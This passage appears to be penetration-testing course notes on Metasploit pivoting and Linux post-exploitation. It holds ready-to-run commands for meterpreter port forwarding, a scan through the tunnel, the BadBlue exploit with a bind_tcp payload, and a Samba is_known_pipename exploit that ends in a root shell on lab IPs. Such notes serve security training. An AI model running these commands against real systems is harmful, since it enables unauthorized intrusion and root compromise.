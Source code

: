 <figure><img src="../../.gitbook/assets/106.png" alt=""><figcaption></figcaption></figure>

```bash
# You find an open port 10.3.25.211:80 and now you must give access to the attacker by port forwarding
# Create a bound between the localhost and the unexposed machine service (port 80)
meterpreter> portfwd add -l 1234 -p 80 -r 10.3.25.211
# CTRL+Z

# The port 10.3.25.211:80 is now reachable on 127.0.0.1:1234. Scan the target 2 by the bound port forwarding
msf6> db_nmap -sV -sS -p 1234 localhost
msf6> services
```

<figure><img src="../../.gitbook/assets/107.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> use exploit/windows/http/badblue_passthru
msf6> set payload windows/meterpreter/bind_tcp
msf6> set rhosts 10.3.25.211
msf6> set lport 4445
msf6> run
```

### Linux post exploitation

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to :
  * Enumerate system configuration
  * Enumerate environment variables
  * Enumerate network configuration
  * VM check
  * Enumerate user history

#### Modules

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a post-linux
msf6> setg rhosts 192.140.234.3
msf6> use exploit/linux/samba/is_known_pipename
msf6> run

/bin/bash -i
root@victim-1> id  # root
```
